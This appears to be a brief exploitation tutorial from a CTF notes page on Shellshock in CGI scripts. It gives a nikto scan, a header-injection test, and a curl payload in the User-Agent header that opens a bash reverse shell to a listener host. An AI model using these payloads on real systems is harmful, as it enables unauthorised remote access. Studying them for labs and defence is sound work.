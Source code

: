 ```yaml
---
description: >-
  Shellshock
title: Shellshock              # Add title here
date: 2022-08-12 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Shellshock]                     # Change Templates to Writeup
tags: [exploitation, rce, shellshock]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Finding the Vulnerability
First you need to find a script (.sh,.pl,.cgi,etc.), most commonly under cgi-bin folder, for this task the best tool is nikto:
```bash
nikto -h <IP>
```

### Testing the Vulnerability
If we receive the "vulnerable" output the server is vulnerable
```bash
kali@kali#~ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://10.0.30.121/cgi-bin/uptime
vulnerable
```

### User-Agent
Next with curl we can abuse of the legacy version of outdated bash which accepts some payloads:
```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.1.250/1234 0>&1" http://10.0.30.121/cgi-bin/uptime
```
Examples:
[ECHO CTF legacy](https://echoctf.red/target/35)

> It is possible to abuse this vulnerability on HTTP Header "Referer" instead of "User-Agent".s
{: .prompt-info }

### References
[cgi-bin Exploitation](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)